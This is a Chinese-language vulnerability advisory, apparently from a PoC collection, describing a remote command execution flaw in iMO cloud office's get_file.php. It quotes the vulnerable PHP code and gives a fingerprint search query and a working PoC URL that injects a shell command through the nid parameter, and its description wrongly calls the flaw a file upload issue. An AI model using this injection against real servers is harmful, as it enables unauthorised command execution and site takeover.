 # imo 云办公室 get_file.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 /file/NDisk/get_file.php 过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限。

## 漏洞影响

```
imo 云办公室
```

## 网络测绘

```
app="iMO-云办公室"
```

## 漏洞复现

登录页面

![image-20220524171455819](images/202205241720834.png)

漏洞文件 get_file.php

```
<?php
// 放置在 mfs 服务器上用于获取文件列表，配合 nd_verify_large_file.php 使用
if(empty($_GET['cid']) || empty($_GET['nid']))
	exit;
$cid = $_GET['cid'];
$nid = $_GET['nid'];
$mainDir = dirname(__FILE__) . '/../upload/NDiskData/normal/' . $cid . '/';
exec("ls {$mainDir}*_{$nid}_*", $r);
$ret = array();
foreach($r as $v)
	$ret[md5_file($v)] = str_replace(dirname(__FILE__) . "/../upload/NDiskData/normal/{$cid}/", '', $v);
echo json_encode($ret);
```

验证POC

```
/file/NDisk/get_file.php?cid=1&nid=;pwd;
```

![image-20220524172138053](images/202205241721104.png)